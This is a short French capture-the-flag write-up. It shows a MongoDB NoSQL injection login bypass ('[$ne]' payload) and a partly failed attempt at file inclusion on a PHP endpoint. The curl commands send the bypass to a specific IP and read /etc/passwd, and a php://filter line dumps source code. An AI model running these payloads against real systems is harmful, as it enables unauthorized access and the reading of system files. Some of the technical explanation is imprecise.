 # Find me 1-3

## Find_me 1/3

Le site affiche une page d'accueil avec tout en bas écrit "MONGO", on devine qu'ils utilisent une db `mongodb`, après quelque recherche, envoyer une requête `POST` avec **BurpSuite** avec ce payload : 

`?username[$ne]=1&password[$ne]=1`, qui crée la requête :

```php
...array(
    username => array($ne => 1),
    password => array($ne => 1)
);
```

Ce qui veut dire : tous les utilisateurs sauf l'utilisateur `1` qui a comme mot de passe `1`, ce qui vaut toujours vrai à part si les deux valeurs valent `1`.

`=> username != 1 & password != 1`



src : [Mongodb is vulnerable to SQL injection in PHP at least | Application Security](https://www.idontplaydarts.com/2010/07/mongodb-is-vulnerable-to-sql-injection-in-php-at-least/)

## Find_me 2/3 (did not succeed)

Sur le endpoint `/car-info.php?` ce script php utilise la fonction include depuis : 

`car-info.php?car=<fichier>` 

On pense à une exploitation `RFI` potentiel (inclure des fichiers distants dans le serveur herbergé)

Outils pour exploiter `RFI` :

- `gist`

- `ngrok`

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

Piste :

`php://filter/convert.base64-encode/resource=shell.php` en endpoint permet d'avoir le contenu de shell.php encodé en base64, on décode pour obtenir le code des fichiers

`curl` CLI connection :

- `curl -X POST -s http://213.32.7.237:<port>/login.php -c session.txt -d 'username[$ne]=1&password[$ne]=1'`
- `curl -s http://213.32.7.237:<port>/car-info.php?car=/etc/passwd -b session.txt`
